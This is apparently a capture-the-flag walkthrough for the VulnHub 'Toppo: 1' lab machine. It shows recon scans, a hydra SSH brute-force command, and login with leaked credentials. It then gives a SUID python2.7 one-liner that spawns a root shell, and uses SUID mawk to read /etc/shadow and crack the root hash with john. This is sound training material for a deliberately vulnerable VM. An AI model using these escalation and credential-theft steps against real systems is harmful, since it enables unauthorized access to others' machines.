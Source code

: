 # Toppo: 1

## 1.Get VM IP
```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.239 00:0c:29:fe:2e:4d       VMware, Inc.
192.168.127.254 00:50:56:e5:26:19       VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.303 seconds (111.16 hosts/sec). 3 responded
```

IP address is `192.168.127.239`, let's enumerate it

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -v -oN nmap.out 192.168.127.239

Nmap scan report for 192.168.127.239
Host is up (0.0013s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44044/udp6  status
|   100024  1          53158/tcp   status
|   100024  1          53607/udp   status
|_  100024  1          53839/tcp6  status
53158/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:FE:2E:4D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Check the webpage, it has nothing to do with, but fuzzing the web application will show `/admin` directory :

```bash
root@kali: gobuster dir --url http://192.168.127.239 --wordlist /root/wordlist/raft-large-directories.txt

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 315] [--> http://192.168.127.239/js/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.127.239/css/]
/admin                (Status: 301) [Size: 318] [--> http://192.168.127.239/admin/]
/img                  (Status: 301) [Size: 316] [--> http://192.168.127.239/img/]
/mail                 (Status: 301) [Size: 317] [--> http://192.168.127.239/mail/]
/manual               (Status: 301) [Size: 319] [--> http://192.168.127.239/manual/]
/vendor               (Status: 301) [Size: 319] [--> http://192.168.127.239/vendor/]
/server-status        (Status: 403) [Size: 303]
/LICENSE              (Status: 200) [Size: 1093]
```

in `/admin` there is a file `notes.txt` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e89bff5b-ac64-4c49-a036-35fff95ca787)


## 3.Gaining shell

since it mentions the password, we can think of brute forcing the SSH service with a list of usernames :

```bash
root@kali: hydra -L /usr/share/wordlists/rockyou.txt  -p 12345ted123 192.168.127.239 ssh -t 5 -v
```

it takes a long time, or if we look closer to the password itself it has a username in it `ted`, so trying to login with `ted:12345ted123`

works fine:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0ea8c1c9-8747-4771-82f5-c967a1484ccb)


## 4.Privilege Escalation (Method 1)
Just check the SUID binaries available on the system :

```bash
ted@Toppo:~$ find / -user root -perm /4000 2>/dev/null

/sbin/mount.nfs
\/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount
```

yes, we can run python2.7 on the system with SUID set on it :

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d5fa4fe9-cd6d-4805-8ff4-6773c673f02f)


that's how we can get root on the system.

## 5.Privilege Escalation (Method 2)

Checking the available SUID binaries on the system shows another binary `/usr/bin/mawk`, with this binary we can also read the content of

`/etc/shadow` file :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/6eb83990-a115-41ee-8c63-2b1b1583d53d)

now we have the hash of root password, just use john to crack it :


```bash
root@kali: echo 'root:$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0:17636:0:99999:7:::' > hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
test123          (root)     
1g 0:00:00:03 DONE (2023-11-04 07:14) 0.3164g/s 5670p/s 5670c/s 5670C/s paramedic..biscuit1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

the password of user root is `test123`, that was easy :)




